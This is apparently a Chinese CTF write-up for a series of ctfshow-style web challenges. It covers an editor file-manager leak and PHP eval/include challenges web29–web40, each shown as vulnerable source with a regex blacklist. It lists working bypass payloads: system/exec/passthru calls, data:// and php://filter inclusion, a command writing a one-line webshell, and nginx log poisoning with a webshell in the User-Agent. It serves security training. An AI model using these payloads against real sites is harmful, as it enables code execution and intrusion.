根据hint知道editor处应该有信息泄漏(虽然不知道什么是editor)

我们先用dirsearch扫一下后台


访问url/editor



是一个文字编辑的页面，我们可以发现在上传附件📎出可以调用出到服务器的文件管理器

在服务器的根目录没看到flag，尝试查看网站的根目录(var/www/html),看看有没有隐藏页面

发现nothinghere文件夹中有个fl00g.txt文件

访问url/nothinghere/f1000g.txt即可得到flag

#### web15


### **命令执行**：

#### web29

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:26:48
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

可以看到通过eval函数可以执行php代码或者系统命令，其中过滤了flag。

进行绕过就行，解法很多

> 1. c=system("cat fl*g.php | grep  -E 'fl.g' ");
>
> 2. c=system("tac fl*g.php");
>
> 3. c=system("cat fl*g.php");（用cat要右键查看源代码才能看到回显）
>
> 4. c=system("cp fl*g.php a.txt ");（访问a.txt查看）
>
> 5. c=system('echo -e " <?php \n error_reporting(0); \n  \$c= \$_GET[\'c\']; \n eval(\$c); " > a.php'); //直接新建一个页面并写入一句话木马
>    （/a.php?c=system("tac flag.php");）
>
> 6. ?c=echo \`tac fla*\`;
>
>    ....

#### web30

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:42:26
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这里过滤了关键字flag，system还有php，由于过滤了system我们需要使用其他的系统函数进行命令执行

payload:

> 1. c=printf(exec("cat%20fl*"));
>
> 2. c=echo exec("cat f\lag.p\hp");
>
> 3. c=show_source(scandir(".")[2]); (这个函数会返回一个包含当前目录下所有文件和目录项的数组)
>
> 4. c=highlight_file(next(array_reverse(scandir("."))));
>
> 5. c=passthru("tac fla*");
>
> 6. c=echo \`tac fla*\`;
>
> 7. c=$a=sys;$b=tem;$c=$a.$b;$c("tac fla*");*
>
> 8. c=echo shell_exec("tac fla*");
>
> 9. c=eval($_GET[1]);&1=system("tac flag.php");
>
> 10. c=passthru(base64_decode("Y2F0IGZsYWcucGhw=="));(base64绕过)
>
>     ......

#### web31

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:49:10
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这题屏蔽了关键词 /flag|system|php|cat|sort|shell|\.| |\'

payload:

> 1. c=eval($_GET[1]);&1=system("tac flag.php");
> 2. c=show_source(scandir(getcwd())[2]);
> 3. c=show_source(next(array_reverse(scandir(pos(localeconv())))));
> 4. c=passthru("tac%09fla*");
> 5. c=echo\`tac%09fla*\`;

#### web32

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:56:31
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这题屏蔽了关键词 /flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(

*过滤了空格可以用`${IFS}`和`%0a` 代替，分号可以用`?>`代替*

用include构造payload：

> url/?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
>
> 或者
>
> url/?c=include$_GET[1]?>&1=data://text/plain,<?php%20system("tac%20flag.php")?>

得到的结果用base64解码一下就可以得到flag了

或者用日志注入：

> url/?c=include$_GET[1]?%3E&1=../../../../var/log/nginx/access.log
> `/var/log/nginx/access.log是nginx默认的access日志路径，访问该路径时，在User-Agent中写入一句话木马，然后用中国蚁剑连接即可`

#### web33

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 02:22:27
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/
//
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

屏蔽的关键词比上一题多了个双引号 /flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"

继续使用include构造payload：

> url/?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
>
> 或者
>
> url/?c=include$_GET[1]?>&1=data://text/plain,<?php%20system("tac%20flag.php")?>

#### web34

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:29
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

屏蔽的关键词 /flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"

继续使用include构造payload：

> url/?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
>
> 或者
>
> url/?c=include$_GET[1]?>&1=data://text/plain,<?php%20system("tac%20flag.php")?>

#### web35

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:23
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

屏蔽关键词 /flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=

继续使用include构造payload：（wsm还能秒）

> url/?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
>
> 或者
>
> url/?c=include$_GET[1]?>&1=data://text/plain,<?php%20system("tac%20flag.php")?>

#### web36

```php
<?php

/*
\# -*- coding: utf-8 -*-
\# @Author: h1xa
\# @Date:  2020-09-04 00:12:34
\# @Last Modified by:  h1xa
\# @Last Modified time: 2020-09-04 04:21:16
\# @email: h1xa@ctfer.com
\# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
    eval($c);
  }
  
}else{
  highlight_file(__FILE__);
}
```

屏蔽关键字 /flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]

不是哥们，数字也要屏蔽，那我改一下不就好了

继续使用include构造payload：

> url/?c=include$_GET[m]?>&m=php://filter/convert.base64-encode/resource=flag.php
>
> 或者
>
> url/?c=include$_GET[m]?>&m=data://text/plain,<?php%20system("tac%20flag.php")?>

#### web37

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:18:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

不是哥们，怎么还是文件包含

payload：

> ?c=data://text/plain,<?php system("tac fla*.php")?>
>
> 或者
>
> ?c=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=

#### web38

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:23:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

payload:

> ?c=data://text/plain,<?=system("tac%20fla*")?>
>
> 或者
>
> ?c=data://text/plain;base64,PD9waHAgCnN5c3RlbSgidGFjIGZsYWcucGhwIikKPz4=

#### web39

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:13:21
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
}
```

这里会在我们传入的c后面拼接一段.php

我们只需要在加入<?php ?>那么php就只会执行中间的代码，后面的内容不会执行

故payload：

> ?c=data://text/plain,<?php system("tac fla*.php")?>

#### web40

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:03:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/


if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```

屏蔽关键词 /[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\

这里要使用无参命令执行

payload：

> ?c=show_source(next(array_reverse(scandir(pos(localeconv())))));

关于无参命令执行的一些解释


